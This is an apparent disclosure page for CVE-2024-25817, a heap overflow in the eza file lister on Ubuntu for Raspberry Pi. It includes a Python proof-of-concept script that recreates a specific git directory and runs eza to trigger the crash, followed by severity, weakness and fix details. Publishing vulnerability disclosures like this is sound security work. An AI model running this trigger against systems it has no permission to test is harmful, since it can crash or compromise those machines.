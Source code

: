 ```yaml
---
title: "CVE-2024-25817"
published: 2024-02-07
updated: 2024-06-08
description: >-
  "In eza, there exists a potential heap overflow vulnerability, first seen when
  using Ubuntu for Raspberry Pi series system, on `ubuntu-raspi` kernel,
  relating to the `.git` directory."
tags: ["CVE"]
category: "CVE"
draft: false
---
```


# Summary

In `eza` [^1] (before `v0.18.11`), there exists a heap overflow vulnerability, first seen when using Ubuntu for Raspberry Pi series system, on `ubuntu-raspi` kernel, relating to the `.git` directory.

# Details

The vulnerability seems to be triggered by the `.git` directory in some projects. This issue may be related to specific files, and the directory structure also plays a role in triggering the vulnerability. Files/folders that may be involved in triggering the vulnerability include `.git/HEAD`, `.git/refs`, and `.git/objects`.

# PoC - If you have Raspberry Pi 4B bare metal machine

**If you don't have Raspberry Pi bare metal, you can try emulate a ubuntu for raspberry system in virtual machine.**

You just need install any one of Ubuntu for Raspberry Pi series system in your bare metal machine.

## Tested platform info

Configuration in `Raspberry Pi 4B` bare metal machine:

```bash
eza version: v0.18.10 [+git]

Linux lux 5.15.0-1049-raspi #52-Ubuntu SMP PREEMPT Thu Mar 14 08:39:42 UTC 2024 aarch64 aarch64 aarch64 GNU/Linux

Distributor ID: Ubuntu
Description: Ubuntu 22.04.4 LTS
Release: 22.04
Codename: jammy
```

> [!IMPORTANT]
> So far I have only tested the `Ubuntu 22.04.4 LTS Server` and confirmed that this vulnerability exists. I haven't test other System/Raspberry Pi yet.

## Steps

Install `eza (<=v0.18.10)` in Raspberry Pi. Process can refer to the official [wiki](https://github.com/eza-community/eza/blob/main/INSTALL.md).

```python
#!/usr/bin/env python3

import os
import shutil
import subprocess

# Step 1: Clone the repository
repo_url = "https://github.com/umami-software/umami.git"
subprocess.run(["git", "clone", repo_url])

# Step 2: Checkout to the specific commit contain the special '.git' directory that can trigger the vulnerability
repo_dir = "umami"
commit_hash = "a38baa5"
os.chdir(repo_dir)
subprocess.run(["git", "checkout", commit_hash])

# Step 3: Create a directory for the vulnerability related files
os.chdir("..")
os.mkdir("suspicious")
shutil.move(os.path.join(repo_dir, ".git"), "suspicious/.git")

# Step 4: Remove unrelated files/directories
shutil.rmtree(repo_dir)

# Step 5: Trigger the vulnerability
subprocess.run(["eza", "-l", "--git", "suspicious/.git"])
```

![](https://jsd.cdn.zzko.cn/gh/CuB3y0nd/picx-images-hosting@master/.23262laj6h.avif)

> [!NOTE]
> The picture shows my test environment. In actual testing, the vulnerability can be triggered by just using the above script.

# Impact

Arbitrary code execution.

# Severity using CVSS

Severity: `High 8.4`<br />
Vector string: `CVSS:3.1/AV:L/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H`

# Weaknesses

- Heap-based Buffer Overflow (CWE-122)
- Improper Restriction of Operations within the Bounds of a Memory Buffer
  (CWE-119)
- Missing Release of Memory after Effective Lifetime (CWE-401)
- Improper Resource Shutdown or Release (CWE-404)
- Improper Initialization (CWE-665)

# GitHub Advisories

- GitHub Advisories.[^3]

# NIST

- National Vulnerability Database.[^4]

# Solution

Update eza to `0.18.11` or higher version.

# References

[^1]:
    [eza](https://github.com/eza-community/eza/tree/main): A modern,
    maintained replacement for ls.

[^3]: [GitHub Advisories](https://github.com/advisories/GHSA-3qx3-6hxr-j2ch)
[^4]: [CVE-2024-25817](https://nvd.nist.gov/vuln/detail/CVE-2024-25817)
